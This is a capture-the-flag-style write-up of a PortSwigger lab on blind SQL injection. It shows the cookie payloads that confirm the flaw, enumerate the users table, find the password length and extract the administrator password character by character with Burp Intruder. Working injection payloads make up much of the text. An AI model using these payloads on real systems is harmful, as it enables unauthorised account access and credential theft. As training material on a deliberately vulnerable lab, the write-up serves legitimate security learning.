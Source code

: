 # Write-up: Blind SQL injection with conditional responses
Lab-Link: <https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses>  
Difficulty: PRACTITIONER  
Python script: 

## Lab description

![alt text](<img/1.png>)

## Steps

### Enumeration

We modify the TrackingId in cookies to check for SQL injection. 
`TrackingId=MkWngWpTCMxNEuxw' AND '1'='1`, which gives us the response `Welcome back!` and
`TrackingId=MkWngWpTCMxNEuxw' AND '1'='2`, which doesn't give us the response `Welcome back!`. This confirms the vulnerability.

Now, we need to find if users table exists in the database and also if it has `administrator` user.
`TrackingId=MkWngWpTCMxNEuxw' AND (SELECT 'a' FROM USERS WHERE username='administrator') = 'a`, which gives us the response `Welcome back!` and confirms the table and user exists.

We will check the length of the password of the user `administrator` by using LENGTH function.
`TrackingId=MkWngWpTCMxNEuxw' AND (SELECT LENGTH(password) FROM USERS WHERE username='administrator') = 1`. Using intruder we can set payload and check for the length of the password. Which comes out to be 20.


### Exploitation

We use the `SUBSTRING` function of sql to conpare the password at each position with alphanumeric characters `a-z`, `A-Z` and `0-9`.
For automating this we use the Burpsuite Intruder with the following payload.

```sql
TrackingId=MkWngWpTCMxNEuxw' AND (SELECT SUBSTRING(password,§1§,1) FROM USERS WHERE username='administrator') = '§a§
```

We set payload §1§ and its type to numbers and from 1-20 and load the characters for 2nd payload to alphanumberic. We also set the Match grep in settings to `Welcome back` to get the response.

Which gives us the password `nm7vdtbdooubpcrkks5g` and we can now login as administrator.

Hence, the lab is sovled.

![alt text](img/2.png)